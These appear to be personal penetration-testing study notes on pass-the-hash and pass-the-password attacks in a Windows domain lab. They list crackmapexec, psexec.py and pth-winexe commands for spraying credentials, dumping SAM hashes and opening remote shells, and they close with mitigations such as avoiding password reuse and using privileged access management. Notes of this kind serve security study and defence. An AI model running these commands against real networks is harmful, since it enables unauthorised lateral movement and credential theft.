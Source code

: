 # Pass the Hash/Password

## What is it?

* using cracked passwords and SAM hashes for lateral movement in the network
* super powerful

## Crackmapexec Pass the Password

#### Crackmapexec Command

```bash
crackmapexec <protocol: smb is best> <ip/CIDR> -u <user> -d <domain> -p <pass>
```

#### Password Spraying?

* Domain Accounts have a lockout policy, but local accounts do not
* hammer local accounts!

#### Popping a Shell with the Credentials Received

```bash
psexec.py marvel/fcastle:'P@$$w0rd!'@172.16.35.6
```

#### Useful Flags

```bash
--sam # Flag to attempt a SAM dump at success
--shares # Enumerate shares
--help # Read the docs
```

## Crackmapexec Pass the Hash (cannot pass NTLMv2)

```bash
crackmapexec <protcol: smb is best> <ip/CIDR> -u <user> -H <last hash part>
```

#### Popping a Shell with the Credentials Received

```bash
psexec.py “frank castle”:@172.16.35.7 -hashes <LM+NT aka the whole hash>
```

## pth-winexe

```
// sushant747 method 1
pth-winexe -U administrator //192.168.1.101 cmd
// sushant747 method 2
pth-winexe -U admin/hash:has //192.168.0.101 cmd

// new learned method (new for me at least)
pth-winexe -U <username>%<hash...>:<...hash> //10.10.10.10 cmd
```

## Mitigations

#### Limit Account Reuse

* avoid re-using local admin password
* disable Guest and Administrator accounts
* limit who is local administrator (least privilege)

#### Utilize Strong Passwords

* the longer the better (>14 characters)
* avoid using common words
* i like long sentences

#### Privilege Access Management (PAM)

* check out/in sensitive accounts when needed
* automatically rotate passwords on check out and check in
* limits pass attacks on hash/password if strong and constantly rotated
